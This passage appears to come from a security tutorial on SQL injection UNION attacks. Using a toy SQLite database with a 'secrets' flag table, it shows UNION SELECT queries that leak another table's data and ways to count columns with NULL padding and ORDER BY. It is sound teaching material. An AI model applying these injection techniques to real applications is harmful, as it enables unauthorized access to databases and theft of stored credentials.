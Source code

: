## UNION queries

 [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are another powerful way to leak information about and in the database. Let's take a look at how `UNION` queries work. First, we need to create a second table in our database, such as a `secrets` table:

```sql
CREATE TABLE secrets ( id INTEGER PRIMARY KEY, data TEXT );
INSERT INTO secrets (id, data) VALUES (1, 'flag');
```

`UNION` allows us to join queries and append the results of the second to the first. Let's merge the results of two separate queries from two separate tables together:

```
sqlite> SELECT username,password from Users WHERE username='admin' UNION SELECT id, data FROM secrets;
1|flag
admin|admin_password
```

We see that the `UNION` does not care about data type or column name during the merge, it just stacks data on top of one another. But there is one important consideration, the number of columns returned by all united queries must be equal. Trying to merge a single column result with two columns results in an error. In a web query, this usually results in an Internal Sever Error or 500 response code.

```
sqlite> SELECT username from Users WHERE username='admin' UNION SELECT id, data FROM secrets;
Parse error: SELECTs to the left and right of UNION do not have the same number of result columns
```

This advantageous to us, as we can use it to enumerate the number of columns returned by the beginning of a query, such as our `SELECT X from Users WHERE username='` login query:

```
sqlite> SELECT * from Users WHERE username='admin' UNION SELECT data FROM secrets;
Parse error: SELECTs to the left and right of UNION do not have the same number of result columns
sqlite> SELECT * from Users WHERE username='admin' UNION SELECT data,data FROM secrets;
Parse error: SELECTs to the left and right of UNION do not have the same number of result columns
sqlite> SELECT * from Users WHERE username='admin' UNION SELECT data,data,data FROM secrets;
admin|admin_password|Admin data
flag|flag|flag
```

Without knowing the beginning of the query we can still ascertain that it results in three columns. This works if we know a column and a table name to end the query with, which we may not. In this case we can use the generic `NULL` column to find a match:

```
sqlite> SELECT * from Users WHERE username='admin' UNION SELECT NULL,NULL,NULL;
||
admin|admin_password|Admin data
```

>We could also accomplish this with an `ORDER BY` query, which orders the results by column index. Once the query fails we know we have gone one index too far:
> 
>```
sqlite> SELECT * from Users WHERE username='admin' ORDER BY 1;
admin|admin_password|Admin data
sqlite> SELECT * from Users WHERE username='admin' ORDER BY 2;
admin|admin_password|Admin data
sqlite> SELECT * from Users WHERE username='admin' ORDER BY 3;
admin|admin_password|Admin data
sqlite> SELECT * from Users WHERE username='admin' ORDER BY 4;
Parse error: 1st ORDER BY term out of range - should be between 1 and 3
>```
